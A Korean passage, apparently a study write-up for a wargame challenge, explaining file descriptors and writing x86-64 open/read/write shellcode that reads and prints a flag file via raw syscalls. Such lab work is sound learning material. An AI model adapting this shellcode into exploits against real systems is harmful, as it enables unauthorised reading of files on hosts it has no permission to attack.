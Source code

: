 int f = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL); 는 
파일을 읽기 전용으로 열고, 이를 그 파일의 파일 디스크립터를 f에 저장하도록 하는 코드이다. 

    "디스크립터"란 OS가 프로그램과 파일, 네트워크 소켓 등과 같은 자원 사이를 연결해주는 고유한 식별자를 말한다고 한다. 
    파일 디스크립터는 특히 파일이나 입출력 스트림과 같은 자원을 참조할 때 사용하는 정수 값이라고 한다. 

<br>

</br> 
또한, read를 통해 파일 디스크립터 f로부터 최대 48바이트를 읽어 buf에 저장하고, write를 통해, buf의 내용을 48바이트만큼 출력하도록 작성해보았다. 

<br>

</br> 

![image](https://github.com/user-attachments/assets/7b398159-8934-4532-b6ac-227e3c6df14d)

하지만, 위 코드의 내용을 그대로 사용하면 안 되고, 어셈블리어로 변환해서 사용해야 되기 때문에, 이를 변환해보려고 한다.
한 번도 작성해본 적이 없어서 어떤 식으로 적어야 할지 감이 안 잡혀서 드림핵에 있는 예제 코드를 활용하여 작성해보려고 한다.

<br>

</br> 

```
section .text
global _start

_start:
    ; Push the file path "/home/shell_basic/flag_name_is_loooooong" onto the stack (역순으로).
    push 0x0                     ; NULL 바이트
    mov rax, 0x676e6f6f6f6f6f6f  ; "oooooong"
    push rax
    mov rax, 0x6c5f73695f656d61  ; "ame_is_l"
    push rax
    mov rax, 0x6e5f67616c662f63  ; "c/flag_n"
    push rax
    mov rax, 0x697361625f6c6c65  ; "ell_basi"
    push rax
    mov rax, 0x68732f656d6f682f  ; "/home/sh"
    push rax

    ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY)
    mov rdi, rsp                 ; 파일 경로 주소 (첫 번째 인자)
    xor rsi, rsi                 ; RD_ONLY (두 번째 인자)
    xor rdx, rdx                 ; NULL (세 번째 인자)
    mov rax, 2                   ; open() 시스템 콜 번호
    syscall                      ; open() 호출

    ; rax에 있는 파일 디스크립터를 rdi로 이동 (read()의 첫 번째 인자)
    mov rdi, rax
    ; 버퍼 주소 설정 (rsp - 0x30, 48바이트를 확보)
    sub rsp, 0x30
    mov rsi, rsp                 ; 버퍼 주소 (두 번째 인자)
    mov rdx, 0x30                ; 읽을 바이트 수 (세 번째 인자)
    mov rax, 0                   ; read() 시스템 콜 번호
    syscall                      ; read() 호출

    ; write(1, buf, 0x30)
    mov rdi, 1                   ; stdout (첫 번째 인자)
    mov rax, 1                   ; write() 시스템 콜 번호
    syscall                      ; write() 호출

    ; 프로그램 종료
    xor rdi, rdi                 ; exit(0) (첫 번째 인자)
    mov rax, 0x3c                ; exit() 시스템 콜 번호
    syscall                      ; exit() 호출

```